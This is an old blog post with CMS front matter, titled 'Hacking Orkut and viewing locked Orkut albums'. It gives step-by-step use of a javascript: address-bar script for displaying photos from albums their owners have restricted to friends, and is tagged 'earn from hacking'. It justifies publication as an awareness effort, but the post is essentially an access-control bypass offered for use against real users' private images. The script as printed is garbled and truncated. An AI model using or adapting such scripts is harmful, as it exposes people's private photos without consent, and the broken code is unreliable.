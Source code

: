 ```yaml
---
# http://learn.getgrav.org/content/headers
title: Hacking Orkut and viewing locked Orkut albums
slug: hacking-orkut-and-viewing-locked-orkut-albums
# menu: Hacking Orkut and viewing locked Orkut albums
date: 03-06-2009
published: true
publish_date: 03-06-2009
# unpublish_date: 03-06-2009
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - earn from hacking
        - orkut
        - orkut hack
        - tech
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [earn from hacking,orkut,orkut hack,tech]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


Hacking Orkut and viewing locked Orkut albums

 1– Script Updated

Qn : Why are You making this Hack Public? Dont you think this can result in Bad Consequences?Ans: The reason(s) behind making this hack public:



- To Aware Orkut Staff about the loop hole and a hope that it will be fixed as soon as possible
- To Aware the ladies out there about the issue and the fact that their privacy, pics can be at stake.

How To Use this Hack?

Userscript

- Navigate to the profile which has disallowed non-friends to view his/her album
- Run this script in the address bar

- **javascript:alert(”Wait for few seconds for pic`s to load……”);nb= document.all[0].innerHTML.match(/[0-9]\*.jpg)/g);nb=parseInt(nb);document.body.innerHTML=”**ALBUM HACK  
**SCRIPT BY Ethical Hacking Community“;for(i=1;i ‘;};void(0)

**
 


- Wait for 4-5 seconds and all the pics in the [album](http://www.orkutplus.net/2007/11/album-hack-view-locked-albums.html#) will be displayed.

Warning : Do not ever try to misuse this hack as this may easily result in [bitter consequences.](http://orkutplus.blogspot.com/2007/10/making-fake-obscene-profiles-on-orkut.html)

Go to our new site- shankee.com
